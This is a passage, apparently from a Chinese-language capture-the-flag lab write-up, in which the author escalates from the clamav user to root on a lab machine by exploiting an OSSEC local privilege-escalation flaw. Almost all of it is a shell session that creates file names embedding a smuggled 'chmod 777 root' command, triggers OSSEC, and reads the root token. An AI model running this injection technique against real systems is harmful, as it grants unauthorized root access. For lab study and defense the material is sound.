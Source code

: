 搜索到[OSSEC 2.7 <2.8.1 - '差异'本地特权升级](https://www.exploit-db.com/exploits/37265/)，根据OSSEC提权漏洞进行提权：


```bash
clamav@tl11-192-168-11-5:~$ ls -al /root
ls -al /root
ls: cannot open directory /root: Permission denied
clamav@tl11-192-168-11-5:~$ touch "a-\$(chmod 777 root)"
touch "a-\$(chmod 777 root)"
clamav@tl11-192-168-11-5:~$ touch "b-\$(chmod 777 root)"
touch "b-\$(chmod 777 root)"
clamav@tl11-192-168-11-5:~$ touch "c-\$(chmod 777 root)"
touch "c-\$(chmod 777 root)"
clamav@tl11-192-168-11-5:~$ /bin/sleep 3
/bin/sleep 3
clamav@tl11-192-168-11-5:~$ echo "give me the token" > a-*
echo "give me the token" > a-*
clamav@tl11-192-168-11-5:~$ /bin/sleep 3
/bin/sleep 3
clamav@tl11-192-168-11-5:~$ echo "give me the token nooow" > b-*
echo "give me the token nooow" > b-*
clamav@tl11-192-168-11-5:~$ /bin/sleep 3
/bin/sleep 3
clamav@tl11-192-168-11-5:~$ echo "One more for good luck" > c-*
echo "One more for good luck" > c-*
clamav@tl11-192-168-11-5:~$ ls -al /root
ls -al /root
total 80
drwxrwxrwx  5 root root  4096 Jul 12  2017 .
drwxr-xr-x 22 root root  4096 Apr  1  2017 ..
drwx------  2 root root  4096 Nov 25  2016 .aptitude
-rw-------  1 root root  7559 Jul 12  2017 .bash_history
-rw-r--r--  1 root root   674 Sep  3  2016 .bashrc
drwx------  3 root root  4096 May  1  2015 .config
-rw-------  1 root root    51 Apr 20  2017 .lesshst
-rw-------  1 root root   407 Jul  4  2017 .nano_history
-rw-r--r--  1 root root   140 Nov 19  2007 .profile
-rw-------  1 root root  1024 Apr 20  2017 .rnd
-rw-r--r--  1 root root    66 Apr 21  2017 .selected_editor
drwxr-xr-x  2 root root  4096 Jul 12  2017 .ssh
-rw-------  1 root root 11611 Jul 12  2017 .viminfo
-rwxr-xr-x  1 root root    38 Nov  5  2014 ipt.sh
-rwx------  1 root root   665 Jun 24  2017 process_checker_mail.sh
-rwx------  1 root root   459 Apr 21  2017 process_checker_ossec.sh
-rw-r--r--  1 root root    23 Jun 30  2017 token
clamav@tl11-192-168-11-5:~$ cat /root/token
cat /root/token
Anti_Virus_not_a_Virus
clamav@tl11-192-168-11-5:~$ 
```
